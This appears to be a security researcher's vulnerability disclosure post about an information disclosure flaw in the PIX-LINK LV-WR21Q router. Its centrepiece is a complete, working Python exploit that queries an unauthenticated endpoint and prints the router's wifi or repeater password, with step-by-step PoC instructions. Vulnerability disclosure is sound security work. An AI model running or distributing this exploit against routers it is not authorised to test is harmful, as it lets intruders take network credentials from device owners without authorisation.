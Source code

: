 ```yaml
---
layout: single
excerpt: "I found a way to get the password of the wifi router when it's in normal mode or repeater mode without authenticating on the router gateway"
date: 2024-05-08
classes: wide
header:
  teaser: /assets/images/pix_link_cve/PIX-LINK.png
  teaser_home_page: true
  icon: #/assets/images/hackthebox.webp
categories:
  - CVE
tags:
  - Routers
  
---
```

Info:
- Product: PIX-LINK
- Model: LV-WR21Q
- Firmware Version: V109_109
- Vulnerability: Information Disclosure
- Impact: <strong>Unauthorized Access to Wifi</strong>.
- Author: Red Team - Miguel Alves (@0xmupa), Fabrício Oliveira (xf5), Sérgio Charruadas

Hello friend, today I'm showing you an Information Disclosure fault in a PIX-LINK router.

First of all, you need to know that this fault will only be executed if you have cable access to the router or if the router Gateway is connected to the Internet. <br />
Ps: It also works via wifi but what's the point of knowing the wifi password when you're already connected to it? hehehe.

Firmware Version:
![](/assets/images/pix_link_cve/firmware_version.png)

PoC:

1. Configure a router for ap (wifi) or repeater mode in the router gateway.
2. Run The Python Exploit below with the parameter wifi_password for AP configuration or repeater_password for Repeater configuration.
3. You'll have a password.

```
import requests
import sys

def make_request(host, endpoint):
    endpoints = {
        "wifi_password": "wifiBasicCfg",
        "repeater_password": "wifiRelay"
    }

    if endpoint not in endpoints:
        print("Usage: python3 pixlin_info_disclouse.py <host> <wifi_password/repeater_password>")
        return

    url = f"http://{host}/goform/getHomePageInfo?modules={endpoints[endpoint]}"

    try:
        response = requests.get(url)
        response.raise_for_status()
        
        print("Response:\n")
        print(response.text)
        
        password_key = 'wifiPwd' if endpoint == 'wifi_password' else 'wifiRelayPwd'
        password = response.json()[endpoints[endpoint]][password_key]
        print(f"\nPassword: {password}")
    except requests.exceptions.RequestException as e:
        print("Request failed:", e)

def main():
    if len(sys.argv) != 3:
        print("Usage: python3 pixlin_info_disclouse.py <host> <wifi_password/repeater_password>")
        return

    host, endpoint = sys.argv[1], sys.argv[2]
    make_request(host, endpoint)

if __name__ == "__main__":
    main()
```

The exploit is very simple, in a nutshell, it will look for the Host/IP and what information we want to access from the shell parameter, then it will look for the endpoint of the API that is destined to return that information and it will give us the answer.

[POC Video](https://youtu.be/EcXSO12Oe0Q).


<strong>I wanted to save the world.</strong>

- Elliot Alderson

